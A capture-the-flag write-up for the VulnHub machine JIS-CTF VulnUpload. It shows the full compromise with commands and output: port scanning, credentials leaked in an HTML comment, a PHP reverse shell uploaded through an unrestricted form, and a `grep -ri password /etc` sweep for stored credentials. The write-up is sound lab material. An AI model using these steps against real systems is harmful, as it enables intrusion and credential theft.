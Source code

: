 ```yaml
---
layout: post
title: JIS-CTF VulnUpload
---
```

Hello! Welcome to another writeup. Today I'm gonna show how I broke [VulnUpload](https://www.vulnhub.com/entry/jis-ctf-vulnupload,228/). According to description:
>Description: There are five flags on this machine. Try to find them. It takes 1.5 hour on average to find all flags.

## Recon
Without futher addo let's see what services are visible on the machine:
```bash
# nmap 192.168.0.101 -p- -Pn -sT -sV -O -T4

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 13:48 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.0.101
Host is up (0.00031s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:46:17:5E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

As expected there's a HTTP server on port 80. Main page presents a login page without any obvious flaws so I try my luck in robots.txt file:

```
User-agent: *
Disallow: /
Disallow: /backup
Disallow: /admin
Disallow: /admin_area
Disallow: /r00t
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag
```

## 1st flag
Navigating to http://192.168.0.101/flag/ presents us the first flag:
```
The 1st flag is : {8734509128730458630012095}
```

## 2nd flag
Under http://192.168.0.101/admin_area/ (also known from robots.txt) there's another flag and login credentials:
```
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```

## 3rd flag
Login credentials from admin_area can be used on index page of server. Doing so gives access to a file upload form. Quick test reveals that uploaded files appear in /uploaded_files folder under their respectful names. I decide to upload PentestMonkey's php-reverse-shell available [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Navigating to the auploaded shell script opens connection to limited shell.

Using the shell we can snoop around victim's disk, and discover another flag:
```
$ cd /var/www/html
$ ls -al
total 60
drwxr-xr-x 8 www-data www-data 4096 Apr 21  2017 .
drwxr-xr-x 3 www-data www-data 4096 Apr 18  2017 ..
drwxrwxr-x 2 www-data www-data 4096 Apr 21  2017 admin_area
drwx------ 5 www-data www-data 4096 Apr 19  2017 assets
-rw-r--r-- 1 www-data www-data  306 Apr 19  2017 check_login.php
drwx------ 2 www-data www-data 4096 Apr 19  2017 css
drwxr-xr-x 2 www-data www-data 4096 Apr 21  2017 flag
-rw-r----- 1 technawi technawi  132 Apr 21  2017 flag.txt
-rw-r--r-- 1 www-data www-data  145 Apr 21  2017 hint.txt
-rw-rw-r-- 1 www-data www-data 1966 Apr 19  2017 index.php
drwx------ 2 www-data www-data 4096 Apr 19  2017 js
-rw-rw-r-- 1 www-data www-data 1485 Apr 19  2017 login.php
-rw-r--r-- 1 www-data www-data  128 Apr 19  2017 logout.php
-rw-rw-r-- 1 www-data www-data  160 Apr 19  2017 robots.txt
drwxrwxr-x 2 www-data www-data 4096 Mar 16 20:26 uploaded_files
$ cat hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}
```

## 4th flsh
Above location also contains last flag but in order to read it we need to login as technawi user. Hint claims that technawi password is stored in some hidden file. I don't feel like searching it by hand so I decide to automate the process:
```
$ grep -A 1 -B 1 -ri password /etc 2>/dev/null
[...]
/etc/mysql/conf.d/credentials.txt-username : technawi
/etc/mysql/conf.d/credentials.txt:password : 3vilH@ksor
[...]
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```

## 5th flag

Now, all that's left to do is to log in through SSH using given credentials and claim last flag:
```
root@Jordaninfosec-CTF01:~# cd /var/www/html
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
```

## Summary

That's all! Thanks for reading, and kudos to the challenge's Author, [Mohammad Khreesha](https://www.vulnhub.com/author/mohammad-khreesha,579/)! :)
## Flags
```
{8734509128730458630012095}
{7412574125871236547895214}
{7645110034526579012345670}
{7845658974123568974185412}
{5473215946785213456975249}
```
